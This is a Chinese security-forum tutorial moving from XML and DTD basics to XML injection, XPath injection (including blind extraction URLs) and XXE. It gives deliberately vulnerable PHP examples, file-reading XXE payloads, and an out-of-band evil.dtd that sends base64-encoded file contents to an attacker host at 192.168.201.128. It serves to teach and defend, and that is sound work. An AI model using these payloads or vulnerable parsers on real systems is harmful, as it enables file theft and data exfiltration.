# 从XML相关一步一步到XXE漏洞 - 先知社区

从XML相关一步一步到XXE漏洞

- - -

### 0x00 前言

想学XXE漏洞，XXE(XML External Entity Injection)全称为XML外部实体注入。XML？！发现我不会，简单看了一下基础知识，发现XML还可能存在XML注入和XPath注入。于是把XML注入、XPath注入和XML 外部实体注入一起学习了！并写了一下学习笔记。

### 0x01 XML

**什么是 XML？**  
XML 指可扩展标记语言（EXtensible Markup Language）。  
XML 的设计宗旨是传输数据，而不是显示数据。  
XML 是 W3C 的推荐标准。  
XML 不会做任何事情。XML 被设计用来结构化、存储以及传输信息。  
XML 语言没有预定义的标签。

**XML 和 HTML 之间的差异**  
XML 不是 HTML 的替代。  
XML 和 HTML 为不同的目的而设计：

> XML 被设计用来传输和存储数据，其焦点是数据的内容。  
> HTML 被设计用来显示数据，其焦点是数据的外观。  
> HTML 旨在显示信息，而 XML 旨在传输信息。

**为什么需要XML**  
现实生活中一些数据之间往往存在一定的关系。我们希望能在计算机中保存和处理这些数据的同时能够保存和处理他们之间的关系。XML就是为了解决这样的需求而产生数据存储格式。

**XML基本格式与基本语法**  
*基本格式：*

```plain
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><!--xml文件的声明-->
<bookstore>                                                 <!--根元素-->
<book category="COOKING">        <!--bookstore的子元素，category为属性-->
<title>Everyday Italian</title>           <!--book的子元素，lang为属性-->
<author>Giada De Laurentiis</author>                  <!--book的子元素-->
<year>2005</year>                                     <!--book的子元素-->
<price>30.00</price>                                  <!--book的子元素-->
</book>                                                 <!--book的结束-->
</bookstore>                                       <!--bookstore的结束-->
```

`<?xml version="1.0" encoding="UTF-8" standalone="yes"?>` 称为 XML prolog ，用于声明XML文档的版本和编码，是可选的，必须放在文档开头。  
standalone值是yes的时候表示DTD仅用于验证文档结构，从而外部实体将被禁用，但它的默认值是no，而且有些parser会直接忽略这一项。

*基本语法：*

-   所有 XML 元素都须有关闭标签。
-   XML 标签对大小写敏感。
-   XML 必须正确地嵌套。
-   XML 文档必须有根元素。
-   XML 的属性值须加引号。

若多个字符都需要转义，则可以将这些内容存放到CDATA里面

```plain
<![CDATA[ 内容 ]]>
```

### 0x02 DTD

**DTD基本概念**  
XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的。  
DTD用来为XML文档定义语义约束。可以嵌入在XML文档中(内部声明)，也可以独立的放在另外一个单独的文件中(外部引用)。是XML文档中的几条语句，用来说明哪些元素/属性是合法的以及元素间应当怎样嵌套/结合，也用来将一些特殊字符和可复用代码段自定义为实体。  
**实体引用**  
XML元素以形如 `<tag>foo</tag>` 的标签开始和结束，如果元素内部出现如`<` 的特殊字符，解析就会失败，为了避免这种情况，XML用实体引用（entity reference）替换特殊字符。XML预定义五个实体引用，即用`&lt; &gt; &amp; &apos; &quot;` 替换 `< > & ' "` 。  
实体引用可以起到类似宏定义和文件包含的效果，为了方便，我们会希望自定义实体引用，这个操作在称为 Document Type Defination（DTD，文档类型定义）的过程中进行。  
**dtd的引入方式**  
DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。  
*内部 DTD*  
使用内部的dtd文件，即将约束规则定义在xml文档中

```plain
<!DOCTYPE 根元素名称 [元素声明]>
```

示例代码：

```plain
<?xml version="1.0"?>
<!DOCTYPE note [<!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)><!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)><!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)><!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)><!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)><!--定义body元素为”#PCDATA”类型-->
]>
<note>
<to>Y0u</to>
<from>@re</from>
<head>v3ry</head>
<body>g00d!</body>
</note>
```

*外部 DTD*  
（1）引入外部的dtd文件

```plain
<!DOCTYPE 根元素名称 SYSTEM "dtd路径">
```

（2）使用外部的dtd文件(网络上的dtd文件)

```plain
<!DOCTYPE 根元素 PUBLIC "DTD名称" "DTD文档的URL">
```

当使用外部DTD时，通过如下语法引入：

```plain
<!DOCTYPE root-element SYSTEM "filename">
```

示例代码：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root-element SYSTEM "test.dtd">
<note>
<to>Y0u</to>
<from>@re</from>
<head>v3ry</head>
<body>g00d!</body>
</note>
```

test.dtd

```plain
<!ELEMENT to (#PCDATA)><!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)><!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)><!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)><!--定义body元素为”#PCDATA”类型-->
```

**PCDATA**  
PCDATA的意思是被解析的字符数据。PCDATA是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。文本中的标签会被当作标记来处理，而实体会被展开。  
被解析的字符数据不应当包含任何`&`，`<`，或者`>`字符，需要用`&amp;` `&lt;` `&gt;`实体来分别替换。  
**CDATA**  
CDATA意思是字符数据，CDATA 是不会被解析器解析的文本，在这些文本中的标签不会被当作标记来对待，其中的实体也不会被展开。  
**DTD元素**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150727-65e7882a-14d2-1.png)  
**DTD属性**  
**属性声明语法**：

```plain
<!ATTLIST 元素名称 属性名称 属性类型 默认值>
```

DTD实例：

```plain
<!ATTLIST payment Luckey CDATA "Q">
```

XML实例：

```plain
<payment Luckey="Q" />
```

以下是 属性类型的选项：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150821-85ef2e3e-14d2-1.png)  
默认属性值可使用下列值：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150849-96eb9a7e-14d2-1.png)  
**DTD实体**

> 实体是用于定义引用普通文本或特殊字符的快捷方式的变量。  
> 实体引用是对实体的引用。  
> 实体可在内部或外部进行声明。

*按实体有无参分类，实体分为一般实体和参数实体*  
*一般实体的声明*：`<!ENTITY 实体名称 "实体内容">`  
引用一般实体的方法：`&实体名称;`  
ps：经实验，普通实体可以在DTD中引用，可以在XML中引用，可以在声明前引用，还可以在实体声明内部引用。

*参数实体的声明*：`<!ENTITY % 实体名称 "实体内容">`  
引用参数实体的方法：`%实体名称;`  
ps：经实验，参数实体只能在DTD中引用，不能在声明前引用，也不能在实体声明内部引用。  
DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。

*按实体使用方式分类，实体分为内部声明实体和引用外部实体*  
*内部实体*

```plain
<!ENTITY 实体名称 "实体的值">
```

内部实体示例代码：

```plain
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE test [
    <!ENTITY writer "Dawn">
    <!ENTITY copyright "Copyright W3School.com.cn">
]>
<test>&writer;©right;</test>
```

*外部实体*  
外部实体，用来引入外部资源。有`SYSTEM`和`PUBLIC`两个关键字，表示实体来自本地计算机还是公共计算机。

```plain
<!ENTITY 实体名称 SYSTEM "URI/URL">
或者
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```

外部实体示例代码：

```plain
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE test [
    <!ENTITY file SYSTEM "file:///etc/passwd">
    <!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&file;©right;</author>
```

外部实体可支持http、file等协议。不同程序支持的协议不同：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202150935-b26e4a30-14d2-1.png)  
PHP支持的协议会更多一些，但需要一定的扩展：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151023-cf02c3ba-14d2-1.png)  
PHP引用外部实体，**常见的利用协议**：

```plain
file://文件绝对路径 如：file:///etc/passwd
http://url/file.txt
php://filter/read=convert.base64-encode/resource=xxx.php
```

*参数实体+外部实体*

```plain
<!ENTITY % 实体名称 SYSTEM "URI/URL">
```

参数实体+外部实体示例代码：

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  %file;
]>
```

`%file`(参数实体)是在DTD中被引用的，而`&file;`是在xml文档中被引用的。

### 0x03 XML注入

XML的设计宗旨是传输数据，而非显示数据。  
XML注入是一种古老的技术，通过利用闭合标签改写XML文件实现的。

#### XML注入简介

XML是一种数据组织存储的数据结构方式，安全的XML在用户输入生成新的数据时候应该只能允许用户接受的数据，需要过滤掉一些可以改变XML标签也就是说改变XML结构插入新功能（例如新的账户信息，等于添加了账户）的特殊输入，如果没有过滤，则可以导致XML注入攻击。

#### XML注入前提条件

（1）用户能够控制数据的输入  
（2）程序有拼凑的数据

**注入实例**  
test1.xml

```plain
<?xml version="1.0" encoding="utf-8"?>
<manager>
    <admin id="1">
    <username>admin</username>
    <password>admin</password>

    </admin>
    <admin id="2">
    <username>root</username>
    <password>root</password>
    </admin>
</manager>
```

XML与HTML一样，也存在注入攻击，在注入的方法上也非常相似。  
对于上面的xml文件，如果攻击者能够掌控password字段，那么就会产生XML注入。如攻击者输入：

```plain
admin </password></admin><admin id="3"><name>hack</name><password>hacker</password></admin>
```

最终修改结果为：

```plain
<?xml version="1.0" encoding="utf-8"?>
<manager>
    <admin id="1">
    <name>admin</name>
    <password>admin</password>
    </admin>
    <admin id="2">
    <username>root</username>
    <password>root</password>
    </admin>
    <admin id="3">
    <name>hack</name>
    <password>hacker</password>
    </admin>
</manager>
```

这样就通过XML注入添加了一个名为hack、密码为：hacker的管理员账户。  
XML注入两大要素：**标签闭合和获取XML表结构**

#### XML注入防御

（1）对用户的输入进行过滤  
（2）对用户的输入进行转义  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152614-05da2f0c-14d5-1.jpg)

### 0x04 XPath注入

#### XPath注入攻击简介

XPath注入攻击是指利用XPath 解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。XPath注入攻击是针对Web服务应用新的攻击方法，它允许攻击者在事先不知道XPath查询相关知识的情况下，通过XPath查询得到一个XML文档的完整内容。

XPath注入发生在当站点使用用户输入的信息来构造请求以获取XML数据。攻击者对站点发送经过特殊构造的信息来探究站点使用的XML是如何构造的，从而进一步获取正常途径下无法获取的数据。当XML数据被用作账户验证时，攻击者还可以提升他的权限。

#### XPath注入攻击特点

XPath注入攻击利用两种技术，即**XPath扫描**和 **XPath查询布尔化**。通过该攻击，攻击者可以控制用来进行XPath查询的XML数据库。这种攻击可以有效地对付使用XPath查询（和XML数据库） 来执行身份验证、查找或者其它操作。

XPath注入攻击同SQL注入攻击类似，但与SQL注入相比，XPath具有的优势：

1.  广泛性  
    只要是利用XPath语法的Web 应用程序若未对输入的XPath查询做严格的处理都会存在XPath注入漏洞。而在SQL注入攻击过程中根据数据库支持的SQL语言不同，注入攻击的实现可能不同。
    
2.  危害性大  
    XPath语言几乎可以没有访问控制限制的引用XML文档的所有部分。而在SQL注入中，一个“`用户`”的权限可能被限制到 某一特定的表、列或者查询。  
    XPath注入攻击可以保证得到完整的XML文档，即完整的数据库。只要Web服务应用具有基本的安全漏洞，即可构造针对 XPath应用的自动攻击。
    

#### Xpath注入攻击原理与利用

XPath注入攻击主要是通过构建特殊的输入，这些输入往往是XPath语法中的一些组合，这些输入将作为参数传入Web 应用程序，通过执行XPath查询而执行入侵者想要的操作。  
注入对象不是数据库users表，而是一个存储数据的XML文件。因为xpath不存在访问控制，所以不会遇到许多在SQL注入中经常遇到的访问限制。 注入出现的位置也就是`cookie`，`headers`，`request` `parameters/input`等。  
[Xpath基本语法](https://www.cnblogs.com/wendyw/p/11633588.html)  
[xPath注入学习之基础语法学习](https://www.freebuf.com/column/211251.html)

如果一个网站某应用程序将数据保存在XML中，并且对用户的输入没有做限制，攻击者提交了没有经过处理的输入，就插入到 XPath 查询中，即产生Xpath注入，那么就攻击者就可能通过控制查询，获取数据，或者删除数据之类的操作。

Xpath是xml路径语言，用于配置文件的查找。数据库就是xml文件。因此只要是利用XPath语法的Web 应用程序如果未对输入的XPath查询做严格的处理都会存在XPath注入漏洞。比如一些登录地址页面，搜索页面需要与xml交互的位置。  
**1、Xpath直接注入**  
示例代码：  
test2.xml(存储用户名和密码)

```plain
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <users> 
        <user> 
            <id>1</id>
            <username>test1</username>
            <password>test1</password>
        </user> 
        <user> 
            <id>2</id>
            <username>test2</username>
            <password>test2</password>
        </user>
    </users>
</root>
```

2.php(用于接收传入参数，并进行XML查询)

```plain
<?php
$xml=simplexml_load_file('test2.xml');
$name=$_GET['name'];
$pwd=$_GET['pwd'];
$query="/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']";
echo $query;
$result=$xml->xpath($query);
if($result){
    echo '<h2>Welcome</h2>';
    foreach($result as $key=>$value){
        echo '<br />ID:'.$value->id;
        echo '<br />Username:'.$value->username;
    }
}
?>
```

**[`simplexml_load_file()`函数](http://www.w3school.com.cn/php/func_simplexml_load_file.asp)**  
返回类 SimpleXMLElement 的一个对象，该对象的属性包含 XML 文档中的数据

正常查询：`/root/users/user[username/text()='test1'and password/text()='test1']`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151143-fe7274e2-14d2-1.jpg)  
攻击者在`username`字段中输入：`' or 1=1 or ''='`  
变成`/root/users/user[username/text()='' or 1=1 or ''='' and password/text()='1']`，成功获取所有user数据。上面这个字符串会在逻辑上使查询一直返回 `true` 并将一直允许攻击者访问系统。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151227-18df12e0-14d3-1.jpg)  
攻击者可以利用 XPath 在应用程序中动态地操作 XML 文档。攻击完成登录可以再通过XPath盲注技术获取最高权限帐号和其它重要文档信息。  
**2、XPath盲注**  
如果遍历出整个XML文档，一般步骤如下：  
*1.盲注根节点*  
利用count（/\*）判断根下节点：

```plain
http://127.0.0.1/xml/2.php?name=' or count(/*) = 1 or '1' = '2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151309-31f7c740-14d3-1.jpg)  
有返回结果证明存在一个根节点。  
利用substring分割根节点的每个字符，猜解第一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),1,1)='r' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/*[position() = 1]),2,1)='o' or '1'='2
```

...  
最终结果: root  
*2.盲注root的下一级节点*  
判断root的下一级节点数：

```plain
http://127.0.0.1/xml/2.php?name=' or count(/root/*) = 1 or '1' = '2
```

有返回结果证明存在一个root的下一级节点。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151335-418afc54-14d3-1.jpg)  
猜解root的下一级节点：

```plain
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),1,1)='u' or '1'='2
http://127.0.0.1/xml/2.php?name=' or substring(name(/root/*[position() = 1]),2,1)='s' or '1'='2
```

最终结果:users  
重复上述步骤，直至猜解出所有节点，最后来猜解节点中的数据或属性值。

#### Xpath注入攻击危害

-   在URL及表单中提交恶意XPath代码，可获取到权限限制数据的访问权，并可修改这些数据。
-   可通过此类漏洞查询获取到系统内部完整的XML文档内容。
-   逻辑以及认证被绕过，它不像数据库那样有各种权限，xml没有各种权限的概念,正因为没有权限概念，因此利用xpath构造查询的时候整个数据库都会被用户读取。

#### Xpath注入攻击防御

1.  数据提交到服务器上端，在服务端正式处理这批数据之前，对提交数据的合法性进行验证。
2.  检查提交的数据是否包含特殊字符，对特殊字符进行编码转换或替换、删除敏感字符或字符串。
3.  对于系统出现的错误信息，以IE错误编码信息替换，屏蔽系统本身的出错信息。
4.  参数化XPath查询，将需要构建的XPath查询表达式，以变量的形式表示，变量不是可以执行的脚本。
5.  通过MD5、SSL等加密算法，对于数据敏感信息和在数据传输过程中加密，即使某些非法用户通过非法手法获取数据包，看到的也是加密后的信息。 总结下就是：限制提交非法字符，对输入内容严格检查过滤，参数化XPath查询的变量。

### 0x05 XML外部实体注入(XXE)

#### XXE漏洞简介

XXE漏洞全称XML External Entity Injection 即XML外部实体注入。  
XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，造成**任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击**等危害。  
XXE漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

解析xml在php库libxml，libxml>=2.9.0的版本中没有XXE漏洞。  
[simplexml\_load\_string()](https://www.runoob.com/php/func-simplexml-load-string.html)可以读取XML

#### XXE本地搭建环境测试

xxe.php

```plain
<?php
$xmlfile=file_get_contents('php://input');
$dom=new DOMDocument();
$dom->loadXML($xmlfile);
$xml=simplexml_import_dom($dom);
$xxe=$xml->xxe;
$str="$xxe \n";
echo $str;
?>
```

-   `file_get_contents`获取客户端输入内容
-   `new DOMDocument()`初始化XML解析器
-   `loadXML($xmlfile)`加载客户端输入的XML内容
-   `simplexml_import_dom($dom)`获取XML文档节点，如果成功则返回SimpleXMLElement对象，如果失败则返回FALSE。
-   获取SimpleXMLElement对象中的节点XXE，然后输出XXE内容。

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://qwzf.txt">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151423-5dc4ee0c-14d3-1.jpg)

#### XXE常见利用方式

与SQL相似，XXE漏洞也分为有回显和无回显  
有回显，可以直接在页面中看到payload的执行结果或现象。  
无回显，又称为blind xxe，可以使用外带数据(OOB)通道提取数据。即可以引用远程服务器上的XML文件读取文件。

##### 1、读取任意文件

首先准备一个有XXE漏洞的文件，这里以php文件为例  
示例代码

```plain
<?php
$xml = simplexml_load_string($_REQUEST['xml']);
print_r($xml);//注释掉该语句即为无回显的情况
?>
```

构造payload

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY file SYSTEM "file:///d://qwzf.txt" >
]>
<root>
<name>&file;</name>
</root>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151458-73114cba-14d3-1.jpg)  
读取文件，需URL编码后执行。  
通过**构造外部实体payload**，在 xml 中 `&file ;` 变成了外部文件`qwzf.txt`中内容，导致敏感信息泄露。  
**靶场练习**  
使用一下靶场练习回显读取文件和无回显读取文件：[xxe-lab](https://github.com/c0ny1/xxe-lab)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151605-9a976c42-14d3-1.jpg)  
输入，抓包发包，发现通过XML传输数据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151629-a8eb5ba0-14d3-1.jpg)  
php源码

```plain
<?php
$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $username = $creds->username;
    $password = $creds->password;
    if($username == $USERNAME && $password == $PASSWORD){
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
    }   
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

1.  有回显

构造payload

```plain
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY file SYSTEM  "file:///d:/qwzf.txt">
]>
<user>
  <username>&file;</username>
  <password>hack</password>
</user>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151724-c9bd6404-14d3-1.jpg)  
当然，也可以使用`php://filter`协议读取qwzf.txt文件内容(也可以读取其他类型的文件，如：php文件)

```plain
php://filter/read=convert.base64-encode/resource=
```

1.  无回显

修改源码，禁掉输出代码和报错信息，改成无回显。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151758-dde2ceb0-14d3-1.jpg)  
遇到无回显，可以通过`Blind XXE`方法加上外带数据通道来提取数据，先使用`php://filter`协议获取目标文件的内容，然后将内容以`http`请求发送到攻击服务器来读取数据。虽无法直接查看文件内容，但我们可以使用易受攻击的服务器作为代理，在外部网络上执行扫描以及代码。即，当无回显情况时，可以将数据发送到远程服务器(攻击服务器)。

这里我使用的攻击机ip为：`192.168.201.128`

构造payload

```plain
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/qwzf.txt">
<!ENTITY % dtd SYSTEM "http://192.168.201.128/evil.dtd">
%dtd;
%send;
]>
```

远程服务器部署evil.dtd内容为:

```plain
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://192.168.201.128/?content=%file;'>"> %payload;
```

%要进行实体编码`&#x25`  
进行XXE攻击后，服务器会把文件内容发送到攻击者服务器(这里是ubantu的apache日志记录)  
